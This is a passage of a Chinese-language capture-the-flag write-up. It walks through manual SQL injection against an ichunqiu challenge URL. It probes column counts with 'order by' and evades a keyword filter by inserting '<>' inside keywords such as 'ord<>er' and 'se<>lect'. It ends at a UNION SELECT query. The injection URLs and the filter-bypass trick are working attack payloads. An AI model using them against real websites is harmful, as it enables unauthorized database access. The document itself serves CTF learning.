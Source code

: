 很明显知道用sql注入，用火狐hackbar进行手动注入，先爆字段

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 order by 4
```

![Pze1iT.md.png](img/ba67db4882503b90053548306dfae965.png)

说明存在过滤，试试/**/，关键词大写，不行，然后尝试<>发现可以

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 ord<>er by 4
```

![PzeNLR.md.png](img/249dfccbc2bf7cc2919ba4f74f66fd40.png)

没出现结果，所以接下来继续爆字段,4不对就二分法换2，然后发现还是没结果，换3有了

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 ord<>er by 2
```

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 ord<>er by 3
```

![Pzeae1.md.png](img/d4f175829339f1e31d04fb24eb0b0be5.png)

然后输入

```
http://4416038693a84c979b378d558565548a72402f0bf1e44e3d.game.ichunqiu.com/index.php?id=1 union se<>lect 1,2,3 from info
```
